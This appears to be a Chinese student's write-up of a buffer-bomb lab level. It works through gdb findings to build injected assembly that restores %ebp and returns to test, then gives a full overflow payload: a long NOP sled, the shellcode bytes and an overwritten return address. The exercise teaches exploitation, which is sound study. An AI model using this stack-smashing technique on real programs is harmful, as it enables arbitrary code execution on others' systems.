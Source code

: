   在getbufn断可以看出%ebp的地址和保存的值会变化，返回地址没有改变

  根据`mov    %esp,%ebp`可以通过%esp恢复%ebp的值

  俺寻思在test中%ebp=%esp+0x24，所以构造了这样的代码

  ```assembly
  push $0x08048e3a
  mov $0x67f4b7b0,%eax
  mov %esp,%ebx
  add $0x24,%ebx
  mov %ebx,%ebp
  ret
  ```

  但是错了

  然后我就不会了

  查了一波

  gdb调试，获得五次数据，可以发现getbufn执行ret后getbufn的%ebp=%esp-0x8，getbufn的%ebp比test的%ebp小0x30，所以test中的%ebp=%esp+0x28

  ```assembly
  movl $0x67f4b7b0,%eax
  movl %esp,%ebx
  addl $0x28,%ebx
  movl %ebx,%ebp
  push $0x08048e3a
  ret
  ```

  ```
     0:	b8 b0 b7 f4 67       	mov    $0x67f4b7b0,%eax
     5:	89 e3                	mov    %esp,%ebx
     7:	83 c3 28             	add    $0x28,%ebx
     a:	89 dd                	mov    %ebx,%ebp
     c:	68 3a 8e 04 08       	pushq  $0x8048e3a
    11:	c3                   	retq  
  ```

  还有一个问题，buf的地址不能确定，最后要覆盖的四字节的返回地址就不能确定。

  可以使用nop sled，在构造的代码之前加入nop指令(0x90)，返回到buf中任意地址都可以顺序执行nop指令直到遇到构造的代码

  找到最高的地址填上就完事了

  ```
  90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 b8 b0 b7 f4 67 89 e3 83 c3 28 89 dd 68 3a 8e 04 08 c3 98 33 68 55
  ```

